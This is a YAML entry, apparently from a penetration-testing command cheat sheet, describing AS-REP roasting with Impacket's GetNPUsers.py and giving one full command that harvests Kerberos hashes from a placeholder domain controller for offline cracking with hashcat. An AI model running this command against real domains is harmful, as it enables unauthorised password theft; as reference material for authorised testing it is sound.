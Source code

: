 ```yaml
---
description: |
  Impacket's GetNPUsers.py will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username List: usernames.txt

  	Output File: hashes.txt

items:
  Username:
    - code: |
        python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
filters:
  Kerberos:
    - code: |
        empty
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

